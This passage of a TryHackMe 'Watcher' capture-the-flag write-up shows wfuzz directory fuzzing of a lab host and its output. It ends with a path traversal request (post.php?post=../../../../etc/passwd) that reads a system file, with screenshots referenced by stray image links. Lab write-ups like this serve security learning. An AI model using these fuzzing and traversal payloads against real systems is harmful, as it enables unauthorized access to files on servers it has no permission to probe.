 
and /secreet_file_do_not_read.txt

403 forbidden

![](Tryhackme/Linux/Watcher/attachments/Pasted%20image%2020240415184819.png)




on fuzzing with wfuzz

```bash
┌──(dedrknex㉿kali)-[~/oscp/Tryhackme/watcher_10.10.65.41]
└─$ wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt --hc 404 -t 100 "http://$ip/FUZZ" 

 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.65.41/FUZZ
Total requests: 20476

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                 
=====================================================================

000000016:   403        9 L      28 W       276 Ch      ".htaccess"                             
000000017:   403        9 L      28 W       276 Ch      ".htpasswd"                             
000005518:   301        9 L      28 W       308 Ch      "css"                                   
000009380:   301        9 L      28 W       311 Ch      "images"                                
000015556:   200        3 L      6 W        69 Ch       "robots.txt"                            
000016220:   403        9 L      28 W       276 Ch      "server-status" 
```

# IntialFoothold

>on inspecting the source code of the webpage found a POST.php confirmed php and also index.php rediractes to the home page

![](Tryhackme/Linux/Watcher/attachments/Pasted%20image%2020240415190537.png)


on visting to the POST.php

![](Tryhackme/Linux/Watcher/attachments/Pasted%20image%2020240415190707.png)


after post=? put <http://10.10.65.41/post.php?post=../../../../etc/passwd>


![](Tryhackme/Linux/Watcher/attachments/Pasted%20image%2020240415190840.png)
